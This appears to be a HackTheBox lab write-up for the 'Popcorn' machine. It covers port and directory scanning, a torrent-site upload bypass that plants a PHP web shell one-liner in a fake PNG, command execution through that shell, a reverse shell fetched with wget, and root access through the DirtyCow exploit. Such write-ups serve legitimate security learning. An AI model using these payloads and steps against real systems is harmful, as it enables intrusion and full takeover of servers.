

# **Popcorn**


This is the beginning of my hackthebox series, and our first machine would be popcorn.

Popcorn, while not overly complicated, contains quite a bit of content and it can be difficult for some users to locate the proper attack vector at first. This machine mainly focuses on different methods of web exploitation.

Let's Dig in, first, we start by spawnning up the machine in hackthebox and retrive the provided ip address


we then now use nmap to scan the network for available ports, this the result of nmap:

```bash
# Nmap 7.93 scan initiated Mon Oct  9 13:41:24 2023 as: nmap -sV -sC -oA nmap 10.129.92.90
Nmap scan report for 10.129.92.90
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  9 13:42:38 2023 -- 1 IP address (1 host up) scanned in 73.66 seconds

```

In the above result we could see ssh and a web server ports opened, we navigate to the site using the ip address and got this:


Next, we try to perform path enumeration using dirb:

```bash
dirb http://10.129.92.90 -r -o tmp.dirb

```

the -r means no directory traversal and -o means to save output to tmp.dirb, after running for some time we got the following result:

```bash

-----------------
DIRB v2.22  
By The Dark Raver
-----------------

OUTPUT_FILE: tmp.dirb
START_TIME: Mon Oct  9 13:44:41 2023
URL_BASE: http://10.129.92.90/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.129.92.90/ ----
+ http://10.129.92.90/cgi-bin/ (CODE:403|SIZE:288)
+ http://10.129.92.90/index (CODE:200|SIZE:177)
+ http://10.129.92.90/index.html (CODE:200|SIZE:177)
+ http://10.129.92.90/server-status (CODE:403|SIZE:293)
+ http://10.129.92.90/test (CODE:200|SIZE:47348)
==> DIRECTORY: http://10.129.92.90/torrent/

-----------------
END_TIME: Mon Oct  9 14:01:41 2023
DOWNLOADED: 4612 - FOUND: 5

```

we try accessing the '/test' endpont and only got the default apache test page with nothing much to scavenge, the rest of the endpoint only shows the previous "it works...." page

we then check the "/torrent" endpoint and saw a torrent upload service:


Accessing the '/torrent' end point redirects us to  "popcorn.htb", which was showing Not found error, this may me a dns problem, so we solved it by adding the ip address and domain name to our /etc/host file:



After successfully accessing the site, we then click on login to login with default admin credentials and got incorrect credentials, we then try to create an account;

We check arround the page and search for common vulnerability we can exploit to get into the system, we saw and upload service that only accepts torrent files so we try uploading one:


we upload a movie torrent file to the site


we try exploiting this upload service to upload our php shell file but no luck, since it only accepts torrent files only after going through so many checks, after uploading the torrent file, we colud see a screenshot image which we could update by uploading another picture:


As shown above, we could only upload a file with an email extension. so let's prepare our payload;

We create a blank file in png file Format

To create a blank file for the checking purpose, execute the following command.

```bash
convert -size 32x32 xc:white test.php
```

after running the command we have a blank image file.

we could see the created file is a png image, next we embed our payload:

we put the following in the middle of the file:

```php
<?php echo system($_GET['cmd']); ?>
```


One more step, we need to add a png extension so that it passes the extension validaton:

we add .png to the file extension:


we can now upload this file to the server and we got a successful upload message 🎉️

Next off, is to find where this image is uploaded, let's check the upload section:


we could see our uploaded payload with the .php extension, let's try accessing it:


we could now see the payload executing, let's try listing the directory:

using:

```http
http://popcorn.htb/torrent/upload/86adccf057ac813938d277c05334239eaf7ebd3d.php?cmd=ls%20-al
```


Hurray, we now have code execution 🎉️

# **Getting Reverse Shell**

To get a reverse shell we need to prepare our payload and upload it into the server;

we do this by hosting a http server in where our payload is hosted on port 7000


we then use wget to download this payload on the server and saved it as gear2.php, we use url encode:


Request payload


after sending the request we could confirm that the payload is on the server saved as gear2.php:


we setup a netcat listener on port 9000; all this as been configured in the gear2.php payload sent earlier with our ip address and port of 9000:


After clicking on gear2.php we get a reverse shell:


we extract the user hash stored in user george home directory and submit:


# **Priviledge Escalation**

Time to use gear 3 for priviledge escalation 😄

we use [dirtycow](https://github.com/FireFart/dirtycow/blob/master/dirty.c) for gear 3, we download it and host it using our simple http server, and downloaded it in the machine


we then use the following command to compile it

```bash
 gcc -pthread gear3.c -o gear3 -lcrypt
```

Then we run the executable:


After running the compiled executable, it creates a new user called firefart with a password configured by us,

we then try to login using that user name and password:


we now have root priviledges, so lets get the root hash:


And we have successfully pwned popcorn.
